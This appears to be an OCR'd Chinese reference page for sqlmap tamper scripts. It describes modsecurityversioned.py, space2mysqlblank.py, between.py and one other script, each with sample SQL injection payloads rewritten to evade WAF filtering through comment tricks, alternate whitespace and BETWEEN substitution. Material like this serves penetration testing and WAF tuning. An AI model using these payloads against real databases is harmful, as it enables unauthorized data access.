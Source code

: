 * * *

作用：替换空格

```
Example: ('1 AND 9227=9227') '1%23%0AAND%23%0A9227=9227' Requirement: * MSSQL * MySQL 

```

## 脚本名：modsecurityversioned.py

* * *

作用：过滤空格，包含完整的查询版本注释

```
Example: ('1 AND 2>1--') '1 /*!30874AND 2>1*/--' 

```

Requirement: * MySQL

Tested against:

*   MySQL 5.0

## 脚本名：space2mysqlblank.py

* * *

作用：空格替换其它空白符号(mysql)

```
Example: 

* Input: SELECT id FROM users 

* Output: SELECT%0Bid%0BFROM%A0users 

```

Requirement:

*   MySQL

Tested against:

*   MySQL 5.1

案例一:wooyun.org/bugs/wooyun-2010-076735

## 脚本名：between.py

* * *

作用：用 between 替换大于号（>）

```
Example: ('1 AND A > B--') '1 AND A NOT BETWEEN 0 AND B--' 

```
